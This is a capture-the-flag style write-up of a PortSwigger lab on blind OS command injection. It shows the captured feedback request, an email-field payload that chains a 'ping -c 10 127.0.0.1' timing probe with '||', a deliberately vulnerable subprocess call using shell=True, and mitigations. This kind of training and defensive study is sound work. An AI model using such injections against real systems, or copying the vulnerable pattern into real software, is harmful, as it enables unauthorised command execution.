

# Blind OS command injection with time delays

| Field          | Value                                                                             |
| -------------- | --------------------------------------------------------------------------------- |
| **Difficulty** | Practitioner                                                                      |
| **Category**   | OS Command Injection                                                              |
| **Lab URL**    | `https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays` |

---

## Lab Objective

Exploit a blind OS command injection vulnerability in the feedback function to make the server's response take roughly 10 seconds to return — proving arbitrary commands run even though their output is never shown.

---

## Skills Learned

- Recognising blind command injection when output is suppressed
- Using a time delay (`ping -c 10` / `sleep`) as a side channel to confirm execution
- Injecting shell operators (`||`) into a form field that feeds a shell command

---

## Recon

The lab is a shop with a "Submit feedback" form (name, email, subject, message). Submitting it posts to:

```
POST /feedback/submit HTTP/2
Content-Type: application/x-www-form-urlencoded

csrf=...&name=utkarsh&email=utkarsh@example.com&subject=hi&message=hello
```

The server acknowledges with a generic "Thank you for submitting feedback" message. Unlike the simple case, the command's output is **not** echoed back — so this is a _blind_ injection.

---

## Finding the Vulnerability

Because nothing is printed, I can't read command output. But if I can make the server _wait_, the response time itself becomes the proof. A command like `ping -c 10 127.0.0.1` takes about 10 seconds to complete, so injecting it should delay the HTTP response by ~10 seconds if my input reaches a shell.

---

## Exploitation Steps

1. Opened the lab and submitted the feedback form once to capture the `POST /feedback/submit` request.
2. Intercepted it in Burp Proxy and sent it to **Repeater**.
3. In the `email` parameter, appended shell OR operators and a 10-second `ping`:
   `email=utkarsh@example.com||ping -c 10 127.0.0.1||`
   (URL-encoded in the request body as `email=utkarsh@example.com||ping+-c+10+127.0.0.1||`).
4. Sent the request and timed the response.
5. The response came back after ~10 seconds (about 9.4s in the capture), confirming the injected command executed.
6. Lab solved.

---

## Payload

```http
POST /feedback/submit HTTP/2
Host: 0a9700880346c804815043500040035.web-security-academy.net
Content-Type: application/x-www-form-urlencoded

csrf=...&name=utkarsh&email=utkarsh@example.com||ping -c 10 127.0.0.1||&subject=hi&message=hello
```



---

## Why It Works

The feedback handler builds an OS command that includes the `email` value (typically something that sends or logs the message). By injecting `|| ping -c 10 127.0.0.1 ||`, the command becomes:

```bash
original_command || ping -c 10 127.0.0.1 ||
```

`||` is the shell's OR operator: it runs the next command if the previous one fails. The trailing `||` and the leading `||` make the `ping` execute regardless of how the original command exits. `ping -c 10 127.0.0.1` sends 10 ICMP packets to localhost, taking ~10 seconds, and because the app waits for the whole command to finish before replying, the HTTP response is delayed by that amount.

The delay — not any printed text — is the signal that proves code execution.

---

## Root Cause

Same class of bug as the simple case: untrusted input is concatenated straight into a shell command.

```python
# Vulnerable pattern
subprocess.run("send_feedback " + name + " " + email + " " + message, shell=True)
```

The `email` field flows unescaped into the command string, so any shell metacharacters the user supplies become part of the command. Here the impact is worse than the simple case: there's no output to read, but a time delay (or an out-of-band ping) still proves full command execution.

---

## Impact

Blind command injection is still remote code execution — the attacker just can't see the output directly. They can:

- Confirm execution via timing (`ping`/`sleep`) or out-of-band channels (the next labs in this series cover OOB)
- Exfiltrate data by encoding it into DNS lookups or timing side channels
- Pivot into the host the same way a non-blind injection would

The "blind" part only removes the easy feedback channel; it does not make the bug safe.

---

## Mitigation

- **Never invoke a shell with user input.** Use argument-list APIs (`subprocess.run([...], shell=False)`) so input can't be interpreted as shell syntax.
- **Validate and allowlist** inputs that must contain structured values; reject metacharacters (`| & ; $ > < ` \n).
- **Apply least privilege** to the service account so a compromise is contained.
- **Avoid `os.system` / `shell=True`** patterns entirely.

---

## Key Takeaways

- When command output is hidden, use a _side channel_ — usually a time delay — to prove execution.
- `ping -c 10 127.0.0.1` (or `sleep 10`) is a reliable timing oracle for blind injection.
- Shell operators like `||`, `&`, and `;` let you chain commands even when you can't see results.
- Blind ≠ harmless: it's still RCE, just quieter.

---

## Related Labs

- [01 - OS command injection, simple case](../01%20-%20OS%20command%20injection%2C%20simple%20case/README.md) — the same injection class, but the output is returned so you read it directly

---

## References

- [PortSwigger: OS command injection](https://portswigger.net/web-security/os-command-injection)
- [PortSwigger: OS command injection cheat sheet](https://portswigger.net/web-security/os-command-injection/cheat-sheet)
- [OWASP: Command Injection](https://owasp.org/www-community/attacks/Command_Injection)
